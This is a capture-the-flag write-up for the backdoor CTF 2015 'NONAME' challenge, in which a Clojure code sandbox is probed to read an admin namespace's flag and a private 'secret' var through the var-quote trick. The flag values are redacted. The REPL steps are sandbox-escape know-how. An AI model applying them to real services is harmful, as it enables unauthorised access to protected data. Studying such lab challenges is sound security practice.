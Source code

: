 # backdoor CTF 2015: [NONAME](https://backdoor.sdslabs.co/challenges/NONAME)

**Category:** Exploit
**Points:** 200
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:**
**Solves:** 25
**Description:** 

* <https://backdoor.sdslabs.co/challenges/NONAME>

> Intrestingly enough, even though it was not expected, Chintu found a cool website to play with, though he can't get the flag. Can you? Visit [this](https://agile-garden-1672.herokuapp.com/). Submit the SHA-256 hash of the flag obtained.

## Write-up

We are given a Clojure sandbox and have to find the flag and secret of an user named admin.

Entering valid clojure code, we can execute several functions, e.g. printing the version:

```clojure
Give me some code:
> (clojure-version)
"1.4.0"
```

After learning about clojure, we first print the complete [namespace](http://clojure.org/namespaces) to find any suspicious imported functions or namespaces using the [all-ns](http://clojure.github.io/clojure/clojure.core-api.html#clojure.core/all-ns) function:

```clojure
> (all-ns)
[..see all-ns file..]
```

We see a namespace named `noname.people.admin`, so we try to find any variables within this namespace after importing this namespace:

```clojure
> (require '[noname.people.admin :as adm])
nil
> (adm/flag)
Ma flag is : [REDACTED]
> (adm/secret)
java.lang.IllegalStateException: var: #'noname.people.admin/secret is not public
```

Mhh, we can access the variable flag, but can't access secret. Secret must be private. Fortunately, there is a way to read private variables described [here](http://christophermaier.name/blog/2011/04/30/not-so-private-clojure-functions):

```clojure
> (#'adm/secret)
"Ma secret is: [REDACTED]"
```

We concat these two strings and make a sha256 hash out of them and get the flag!

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-noname-writeup/>
